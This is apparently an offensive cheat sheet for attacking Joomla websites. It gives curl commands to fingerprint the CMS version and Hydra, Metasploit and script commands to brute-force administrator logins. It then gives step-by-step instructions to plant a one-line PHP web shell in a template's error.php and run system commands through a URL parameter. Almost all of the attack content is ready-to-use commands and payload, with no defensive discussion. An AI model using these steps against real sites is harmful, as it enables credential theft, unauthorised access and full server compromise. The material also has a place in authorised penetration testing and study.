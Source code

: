 ### **Introduction**

Joomla is a free and open-source content management system (CMS) used to create, manage, and publish digital content on websites. It provides a user-friendly interface and a range of features that allow users to build and maintain websites without needing to write code. Joomla is highly customizable, supporting extensions and templates to enhance functionality and design, making it a popular choice for websites of all sizes—from personal blogs to large corporate sites.

### **Identifying Joomla Version**

1.  Obtain Joomla Version from README:  
    `curl -s http://[JOOMLA-DOMAIN]/README.txt | head -n 5`
    
    ```
    Joomla! version 3.9.22
    Copyright (c) 2005 - 2020 Open Source Matters.
    All rights reserved.
    Licensed under GNU General Public License.
    ```
    
2.  Check Version in Language Configuration:  
    `curl -s http://[JOOMLA-DOMAIN]/language/en-GB/en-GB.xml`
    
    ```xml
    <metadata>
        <name>English (United Kingdom)</name>
        <version>3.9.22</version>
        <description>English (United Kingdom) Language Pack</description>
    </metadata>
    ```
    
3.  Check Version in XML Configuration Files:  
    `curl -s http://[JOOMLA-DOMAIN]/plugins/system/cache/cache.xml`
    
    ```xml
    <extension version="3.9.22" type="plugin" method="upgrade">
        <name>cache</name>
        <author>Joomla! Project</author>
        <creationDate>April 2020</creationDate>
    </extension>
    ```
    
4.  Check Version in Administrator Manifests:  
    `curl -s http://[JOOMLA-DOMAIN]/administrator/manifests/files/joomla.xml | xmllint --format -`
    
    ```xml
    <extension type="file" version="3.9.22" method="upgrade">
        <name>joomla</name>
        <author>Joomla! Project</author>
        <creationDate>September 2020</creationDate> 
        <description>Joomla! Core Files</description>
    </extension>`
    ```
    

### **Automatic Scanning**

1.  Use Droopescan for automatic scanning:  
    `droopescan scan joomla --url http://[JOOMLA-DOMAIN]/`

### **Brute Forcing Login Credentials**

1.  Using Hydra for Credential Brute-Forcing:  
    `hydra -L users.txt -P passwds.txt [JOOMLA-DOMAIN] http-get /administrator/index.php`
2.  Using [joomla-brute.py](https://github.com/ajnik/joomla-bruteforce) for Credential Brute-Forcing:  
    `sudo python3 joomla-brute.py -u http://[JOOMLA-DOMAIN] -w /usr/share/wordlist/rockyou.txt -usr admin`
3.  Using Metasploit for Credential Brute-Forcing:  
    `msf > use auxiliary/scanner/http/joomla_bruteforce_login`

### **Gain RCE by Injecting PHP Code in a Template**

1.  Navigate to Templates in Joomla Admin Panel.
2.  Select protostar from the Template list.
3.  Access the Templates: Customize page.
4.  Edit the error.php page and insert the following PHP code:  
    `system($_GET['cmd']);`
5.  Save the changes.
6.  Trigger the RCE with:  
    `curl -s http://[JOOMLA-DOMAIN]/templates/protostar/error.php?cmd=id`
